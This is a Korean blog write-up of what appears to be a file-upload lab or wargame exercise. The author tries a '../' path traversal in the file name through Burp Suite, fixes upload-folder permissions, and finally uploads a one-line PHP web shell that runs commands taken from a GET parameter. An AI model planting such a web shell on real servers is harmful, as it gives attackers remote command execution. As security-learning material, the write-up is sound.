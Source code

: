 아마도 이전 디렉토리를 의미하는 `../` 기호를 활용하면 되지 않을까? 라고 생각하여 일반적인 업로드와 내가 생각한 업로드 방식을 실험해보기로 했다. 일반적인 이미지를 업로드할 경우에 다음과 같다.

![image-20220521103558090](../img/image-20220521103558090.png)

그래서 코드에 따라 업로드가 불가능하다고 판단되어 파일 이름에 경로 기호를 삽입하려고 하였다. 하지만 미처 파일 이름이 `.` 기호와 `/` 기호가 포함되도록 만드는 방법을 알지 못했다. 그래서 burp suite 를 이용해 인자 전달 시에 파일 명을 바꿔 보기로 했다. 

![image-20220521110540906](../img/image-20220521110540906.png)

근데 그래도 안됐다. 무언가 잘못됨을 느끼고 php 오류를 출력하게끔 하였더니

![image-20220521110632630](../img/image-20220521110632630.png)

권한이 없다고 한다. 아마도 bitnami를 구축할 때 설정된 폴더 권한 때문에 그런 것 같다.

<br>

![image-20220521111323305](../img/image-20220521111323305.png)

확인해보니 upload 폴더의 권한이 666이였고 내가 업로드 기능을 구현할 때 업로드 폴더에 주었던 권한 777을 부여했다. 내가 알기로는 실행 권한인 `x`가 폴더에 없을 경우 해당 폴더에 접근이 불가능한 것으로 알고 있는데, 이게 왜 이렇게 되어있었는지 잘 모르겠다. 일단 777 권한을 부여한 이후에는 php 오류 구문 없이 파일이 업로드 가능했다.

![image-20220521111639889](../img/image-20220521111639889.png)

<br><br>

~~이 문제를 해결하고 나니 코드 부분이 이해가 가지 않았다. 인터넷을 찾아보니 `move_uploaded_file`은 성공할 경우 true를 반환하는 것으로 나와있다. 그러나 위 코드에서 반환이 false일 경우에 업로드 문구가 뜨도록 되어있는데... 뭘까...~~

사람이 피곤하면 헛소리를 하는 듯하다. 실패하면 false 거기에 `!` 되면 true 그래서 No.

<br><br>

## Write up

사소한 업로드 이슈를 해결한 뒤 접근한 방식은 다음과 같다.

1. 문제에서 업로드에 성공할 경우에 업로드 된 경로를 알려준다.
2. 알려진 경로에 대한 접근이 가능하다.

![image-20220521113519206](../img/image-20220521113519206.png)

때문에 system("ls") 와 같은 코드를 실행한다면 되겠다.

```php
<?php
system("ls");
?>
```

이 코드를 삽입하여 올려도 좋겠지만 더 다양한 커맨드를 위해 아래 코드를 업로드 했다.

```php
<?php
$cmd = $_GET['c'];
system($cmd);
?>
```
